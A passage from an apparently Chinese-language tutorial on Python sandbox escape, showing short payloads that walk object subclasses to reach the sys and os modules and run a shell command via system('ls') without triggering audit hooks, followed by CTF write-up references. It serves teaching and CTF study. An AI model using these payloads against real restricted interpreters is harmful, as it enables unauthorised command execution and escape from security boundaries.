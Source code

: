 ### 其他不触发 hook 的方式[](#其他不触发-hook-的方式)

使用 `__loader__.load_module('os')` 是为了获取 os 模块, 其实在 no builtins 利用手法中, 无需导入也可以获取对应模块. 例如:

```
# 获取 sys
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "sys" in x.__init__.__globals__ ][0]["sys"]

# 获取 os
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "'_sitebuiltins." in str(x) and not "_Helper" in str(x) ][0]["sys"].modules["os"]

# 其他的 payload 也都不会触发
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if x.__name__=="_wrap_close"][0]["system"]("ls")
```

参考资料[](#参考资料)
-------------

*   [Python 沙箱逃逸小结](https://www.mi1k7ea.com/2019/05/31/Python%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E5%B0%8F%E7%BB%93/#%E8%BF%87%E6%BB%A4-globals)
*   [Python 沙箱逃逸的经验总结](https://www.tr0y.wang/2019/05/06/Python%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E7%BB%8F%E9%AA%8C%E6%80%BB%E7%BB%93/#%E5%89%8D%E8%A8%80)
*   [Python 沙箱逃逸的通解探索之路](https://www.tr0y.wang/2022/09/28/common-exp-of-python-jail/)
*   [python 沙箱逃逸学习记录](https://xz.aliyun.com/t/12303#toc-11)
*   [Bypass Python sandboxes](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes)
*   [[PyJail] python 沙箱逃逸探究 · 上（HNCTF 题解 - WEEK1）](https://zhuanlan.zhihu.com/p/578986988)
*   [[PyJail] python 沙箱逃逸探究 · 中（HNCTF 题解 - WEEK2）](https://zhuanlan.zhihu.com/p/579057932)
*   [[PyJail] python 沙箱逃逸探究 · 下（HNCTF 题解 - WEEK3）](https://zhuanlan.zhihu.com/p/579183067)
*   [audited2](https://ctftime.org/writeup/31883)
*   [【ctf】HNCTF Jail All In One](https://www.woodwhale.top/archives/hnctfj-ail-all-in-one)
*   [HAXLAB — Endgame Pwn](https://ctftime.org/writeup/28286)
*   [Python 沙箱逃逸的 n 种姿势](https://ctftime.org/writeup/28286)
*   [hxp2020-audited](https://pullp.github.io/writeup/2020/12/26/hxp2020-audited.html)